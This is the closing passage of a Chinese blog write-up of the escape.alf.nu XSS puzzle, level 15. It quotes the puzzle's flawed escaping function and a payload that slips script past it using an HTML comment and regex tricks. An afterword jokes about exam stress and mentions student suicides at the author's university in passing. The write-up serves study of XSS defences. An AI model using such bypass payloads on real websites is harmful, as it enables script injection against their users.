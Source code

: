 *<a href="http://escape.alf.nu/15">第15题</a>*

```
function escape(s) {
  return s.split('#').map(function(v) {
      // Only 20% of slashes are end tags; save 1.2% of total
      // bytes by only escaping those.
      var json = JSON.stringify(v).replace(/<\//g, '<\\/');
      return '<script>console.log('+json+')</script>';
      }).join('');
}
```
这个题依然用'#'为分隔符，将前后两部分分别填入两段JS中。由于过滤了'</script'，所以不能直接加标签来XSS。用上一题```<!--<script>```的方式使中间两个script标签失效。然后用'/'来与</script>中的'/'形成正则，同时用')'来闭合正则中的'('。
```
<!--<script>#-->)/;alert(1)//
```

## 后记
本来以为15题就是结束了，结果后面还有16题。然后发现总共有101道题，感觉是有生之年系列了，不能知道能不能搞完。本来以为做了一遍写这篇文章应该是很快的，没想到还是弄了一下午，很多东西做一遍根本没印象，是不是该吃点啥补补脑子了T_T。要期末了，求各路神仙保佑别挂科啊，想到我邮这学期这么多跳楼的，老师们会不会心慈手软一点呢。。。

